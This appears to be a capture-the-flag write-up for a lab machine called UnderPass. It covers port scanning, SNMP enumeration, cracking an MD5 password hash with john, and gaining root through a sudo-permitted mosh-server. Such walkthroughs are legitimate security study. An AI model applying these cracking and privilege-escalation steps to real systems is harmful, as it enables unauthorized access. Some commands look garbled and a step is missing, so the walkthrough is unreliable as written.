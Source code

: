 # UnderPass





## Nmap

```
sudo nmap -sS --min-rate 5000 -Pn -n -vvv -p- 10.10.11.48 -oG allPorts
```


```
sudo nmap -sS -sU -v 10.10.11.48
```

We've got the `161` UDP open port !
```
PORT     STATE         SERVICE
22/tcp   open          ssh
80/tcp   open          http
161/udp  open          snmp
1812/udp open|filtered radius
1813/udp open|filtered radacct
```

Using `snmpwalk`, we can extract information
```
snmpwalk -v 2c -c 10.10.11.48
```

The output shows there's a service `daloradius` and a `email`
```
SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas
SNMPv2-MIB::sysServices.0 = INTEGER: 72
```

We use `john` in order to crack the passowrd
```
john --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt --format=raw-md5 svcMosh_password_encrypted.txt
```
> I stored the hashed pass in the txt file

We got the clear password
```
[qwerty:35473] create_and_attach: unable to create shared memory BTL coordinating structure :: size 134217728
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
underwaterfriends (?)
1g 0:00:00:00 DONE (2025-02-14 18:03) 5.263g/s 15704Kp/s 15704Kc/s 15704KC/s undiamassinverte..underthebus
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed
```

> The clear passwd is `underwaterfriends`

Let's connect to the `ssh`



See the user flag
```

```


```
sudo -l
```

We've got the `mosh` service 
```
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

looking for the available options, we see this one
```
        --server=COMMAND     mosh server on remote machine
                                (default: "mosh-server")
```

We can use this server command in order to get access !
```
mosh --server="sudo /usr/bin/mosh" 127.0.0.1
```

We got root !
```
root@underpass:~#
```

Check for the flag


